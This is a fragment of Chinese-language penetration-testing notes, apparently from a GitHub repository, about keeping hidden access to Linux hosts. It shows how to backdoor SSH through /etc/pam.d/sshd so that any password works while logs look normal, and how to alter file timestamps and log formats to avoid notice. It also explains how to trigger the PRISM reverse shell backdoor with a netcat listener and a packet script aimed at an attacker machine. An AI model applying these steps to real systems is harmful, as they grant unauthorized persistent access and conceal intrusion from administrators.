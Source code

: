 ![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/a11409673ab9bceaca378de691a60b69.png)

find / -name pam_unix.so

/usr/lib64/security

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/bb06452ab6c38b1a3fb502fb50d1e4fa.png)

vim /etc/sysconfig/selinux

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/dc975328199bcb8348ec9c8cdc2d40df.png)

重启后测试

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/e362b24ad2fdb4f78dbf28b359e6eb03.png)

优化日志格式(/var/log/secure):

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/ac34091295b5c94eeb4f89c13be53ed0.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/5bb590278d263db7fc667a4628a9141d.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/006eae4c3141c8b60bef2fba96a971da.png)

修改更改时间:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/6d94ec2734aa42f64d2299636a320222.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/f9169c5d57bf7913c7e8900d528f3338.png)

直接修改/etc/pam.d/sshd文件，输入任意密码即可登录，不再执行pam_unix.so(日志正常)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/166a14ceea3a53ab8e297cc1ba675457.png)

输入任意字符即可登录:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/13ba2ee3e93fdf3b422ab902da8c0c2f.png)

**PRISM后门(需root权限)**

PRISM is an user space stealth reverse shell backdoor, written in pure C.

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

ICMP mode:

**nc -l -p 6666**

**./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666**

192.168.0.1 is the victim machine running prism backdoor

p4ssw0rd is the key

192.168.0.10 is the attacker machine address

6666 is the attacker machine port
